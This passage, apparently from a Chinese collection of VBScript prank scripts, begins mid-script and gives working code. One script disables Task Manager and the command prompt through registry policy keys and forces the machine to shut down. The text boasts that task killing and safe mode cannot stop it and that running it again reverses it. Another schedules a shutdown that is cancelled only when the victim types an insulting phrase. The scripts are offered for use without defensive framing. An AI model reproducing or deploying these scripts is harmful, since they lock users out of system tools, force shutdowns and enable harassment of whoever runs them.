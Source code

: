 ```
ws.run"cmd.exe /c shutdown -a",0 
end select 
end sub 
```

-------------------------------------------------------------------------------
## 十一、
> 复制以上代码，在桌面建一个文本，把代码放进去，另存为VBE格式<br>
> 此代码的威力： <br>
> 1：开机就强制自动关机<br> 
> 2：cmd命令打不开 <br>
> 3：结束任务不管用 <br>
> 4：F8安全模式也不管用 <br>
> 呵呵！听起来是不是有点恐怖啊，我在我朋友空间里看见也吓了一跳、<br> 
> 代码破解方法：就是再运行一次，就可以破解了，也就是第2次保存的那个VBE文件，，<br>
> 

```
set s=createobject("wscript.shell") 
set bag=getobject("winmgmts:\\.\root\cimv2") 
set pipe=bag.execquery("select * from win32_process where name='wscript.exe'") 
For Each id in pipe 
if instr(1,id.commandLine,wscript.scriptfullname)<>0 and pipe.count>=2 then 
s.regwrite"HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableTaskMgr",0,"REG_DWORD" 
s.regwrite"HKCU\Software\Policies\Microsoft\Windows\System\DisableCMD",0,"REG_DWORD" 
id.terminate() 
else 
s.regwrite"HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableTaskMgr",1,"REG_DWORD" 
s.regwrite"HKCU\Software\Policies\Microsoft\Windows\System\DisableCMD",1,"REG_DWORD" 
for i=1 to 60 
s.popup"系统将在"& 60-i &"秒后关机...",1,"系统提示",4096+48 
next 
Set colOS = GetObject("winmgmts:{(Shutdown)}").ExecQuery("Select * FROM Win32_OperatingSystem") 
For Each eOs In colOS 
eOs.Win32Shutdown(2) 
Next 
end if 
Next 
[color=#FF0000]
```

---------
## 十二、关机

```
on error resume next 
dim WSHshellA 
set WSHshellA = wscript.createobject("wscript.shell") 
WSHshellA.run "cmd.exe /c shutdown -r -t 60 -c ""说你是傻B，我是天下第一大傻B不说宝宝，我是天下第一大傻B就一分钟关你机，不信，试试···"" ",0 ,true 
dim a 
do while(a <> "宝宝，我是天下第一大傻B") 
a = inputbox ("宝宝，我是天下第一大傻B,就不关机，快撒，说 ""宝宝，我是天下第一大傻B""　","说不说","不说",8000,7000) 
msgbox chr(13) + chr(13) + chr(13) + a,0,"MsgBox" 
loop 
msgbox chr(13) + chr(13) + chr(13) + "早说就行了嘛，乖乖" 
dim WSHshell 
set WSHshell = wscript.createobject("wscript.shell") 
WSHshell.run "cmd.exe /c shutdown -a",0 ,true 
msgbox chr(13) + chr(13) + chr(13) + "宝宝是不是又帅啦？？" 
```